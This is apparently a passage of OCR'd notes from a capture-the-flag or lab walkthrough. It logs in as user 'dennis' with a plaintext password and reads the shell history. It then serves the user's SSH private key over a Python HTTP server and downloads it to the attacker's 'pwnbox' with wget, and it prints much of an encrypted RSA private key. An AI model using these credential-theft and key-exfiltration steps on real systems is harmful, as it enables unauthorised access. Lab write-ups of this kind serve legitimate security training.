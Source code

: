 | 101 | dennis             | 7AUgWWQEiMPdqx |

ssh dennis@$TARGET
7AUgWWQEiMPdqx

cat .bash_history

ssh-keygen -m PEM -t rsa
ls
cd
cd ..
cd
cd .ssh/
ls
cat id_rsa.pub > authorized_keys
vim authorized_keys 
passwd
clear
exit
cd .ssh
cat id_rsa


cat .ssh/id_rsa

On target :
cd .ssh/
python3 -m http.server

On pwnbox :
wget $TARGET:8000/id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,735C4BC00394A787F6FCE95C5B7F2331

M4SBfHkWiWdvYwd2rKdsBc8K4dwYbFmIyu4O9xdPhmP4rj7j7IuNBAPv11CCaehU
9pbD5Do598eek6h6cKuA0YG4n+OyunC4kO1J4qFHzIBMUhKDOA3V7x97lhgfTB4w
IS+zMgABo3q2yem9+EMh34qkwhO5MiP6V2id23vMW7gYi7H1AuTrCutYdlc/uox2
LcASkaRpDc+diBCP53Hq6xbc5vSoBk9f9HMl1reZWUR/PHomXt8yBCdZINKPISU0
1LaSTDIFglYplN/CDpOqJifDyQjk5SyTEKfN/fHiF2jpnqfMY475+vUNlKikHd79
Nyi9RAg3FJPR1n01ZAMLG9Ev4qWj7iNKEnyCBgsbqmjSpJ4Yse0CP3AXrp8nSUM6
anADGfhYVlVbLDP18BwJMe6RD0fYUJC1Yrz8v2vyZYd7PXltjfeEyoKUoQhdK90o
RTgu/UyoJE8GpqBj0zLBTd7IfInf3HNdVEYl0A5YAerWd2zpHrvdT03NMLbyvMBl
+EzoK3/gO2tol6V9szCTMTbJr97YwLXgFK1ujINnBip1BVO9oQbAeIVYXSaIc9Pj
qSOOxriPYgJeiTJrLzR5FffQaRuOmp7CQfxduaxILwBLliLPZP4u2IemQfasM0sw
ZoicauIqxiG5QqHu4sbINa6HbcXYa8nubF2Ervdw4keSk6IJBpyRcBm0ImH8pgPE
EKVPHw+eczDzpjD8B8sVYZr5OtwoMFxaQDRdR3IJQKN4mlL2juzIN3JjmJWux2tS
FB0PICSPJTiV7yDby5KoixYGVLYkmj3fKwnUmsSWs+7K8biRFCbTwB4yCBP/2GbZ
K3uoyWPMRXAvEu9tnZl+w8L2Ns0RxMBXVHwwnoWfQm7xiBr7v5D5tLpfGJ8YvElE
SQSJvy8jAQTx46siaYs7u4wd6oE+5YBKFDGplR93TtB/3Xoe3uBD0/p49GOmMWl/
7rWzkzI/1h+9JfBlpLkc+c8qwdaBkldQ6mMUls9i0UDdUmLz9oz1eEawvmlTvoaw
vyHUSUEAV4nQjlaZ30HOCbtYyJBxw4Khcdj0f28S50nhH6oIQ0QTAUJhVo0nfyWS
EpV13U97ZrlvfiToTQcafCZeytyATzlbxqUy0IIT0A4Nd/JaALxQ3mwM8en1PAzg
qJlX43ZhsIEszrpvIIpoUvGIeJ118mDAnbTuQs8QtKMgffb/uNykQbGTEWjjS+fX
gIh30G0hPdNQSyYfrO6Go4J07YPsK4KsrM7/1/UPbLRuHGl73mAj9zNfCuPPmZjm
MRhwgABz1wmkmVVFxvOBlGiYHtSstB6RKY50w9YCft9XH8ail7GE0mI2hyqqhWUv
P0ZJdctC+chzKPxefKqIZx7WP9OFmpix1qTtFNphnQTBfyTBn7lNlTkJwfzJ0jiO
x+ON7VlgAid/M+5lN2VJAmzpfyc3SngMLl5KvFjQNwoAYTIo6ha6ZI2DqZk/mWbx
xmbzu10X6Q333piGF50u89f8zxg1sPcG76QW20RbOpjlZLriynZlHXVp6mJYnen9
9CizblSN7qQXdv49ikcbTJWhITx/PpvvrGATu+Mfsc00NyALaXBUCh0NJfBaqrkk
uvjs98lfcvek5UDAlY4H0MABNU7KYnZMaIs2VnMRGJqI9wHKHePESlS/wwPN/vvE
EQOakeqOFo92xtHgNzg9pqvXH54M80dPy27raMaXA9oqt4/RWyeGZDu3riGTKa+4
0vavZvWG7j4NFn/tM7KtooOyi2QPlBCml2Xm4zRPVF3WOT6BGod9j8F30ZBqG8H0
W9t99JJyoLiqrFVsJNpn+biANu4oTHRI7WJl+JI3a44DwghAQUaQqXqsaR4H+AQn
CTS3VYbiVd7KrfBDFtFB4ml7kox399lFHuMza0t10+JwTuwIpUHSh8ay2d5vufaV
f60RV7h/1Ddo1RAfHmr/pzaVwlnWq/ymscRE2xVzKJFfG8tRxIWRg9EM/80DLBME